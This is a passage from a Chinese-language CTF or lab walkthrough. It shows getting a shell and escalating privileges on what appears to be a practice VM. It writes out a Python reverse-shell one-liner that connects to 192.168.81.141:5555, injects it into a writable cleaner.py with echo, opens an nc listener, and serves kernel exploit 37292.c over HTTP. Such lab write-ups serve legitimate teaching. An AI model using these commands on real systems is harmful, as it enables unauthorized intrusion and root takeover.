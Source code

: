 ![image-20220304222622360](https://gitee.com/xxb667/img/raw/master/img/image-20220304222622360.png)



```
!/usr/bin/env python import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.81.141",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

由于我们不能直接编辑cleaner.py这个脚本，用echo命令把代码加到cleaner.py里面。

```shell
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.81.141",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")' > /lib/log/cleaner.py
```

![image-20220304223650698](https://gitee.com/xxb667/img/raw/master/img/image-20220304223650698.png)

### 3.2Getshell：

kali开启监听：

```
nc -lvnp 5555
```



稍等1分钟左右就可以接收到反弹的shell

![image-20220304224722372](https://gitee.com/xxb667/img/raw/master/img/image-20220304224722372.png)

# 4.提权

内核版本为3.1.3  kali`searchsploit ubuntu`  可以内核提权 

## kali启动服务器：

```shell
 cp  /usr/share/exploitdb/exploits/linux/local/37292.c .
 python -m http.server 80
```

```
cp  /usr/share/exploitdb/exploits/linux/local/37292.c /home/xxb1
python2 -m SimpleHTTPServer 1234 
```

![image-20220304225223820](https://gitee.com/xxb667/img/raw/master/img/image-20220304225223820.png)

## 下载

目标机器：执行下载，下载到tmp目录下
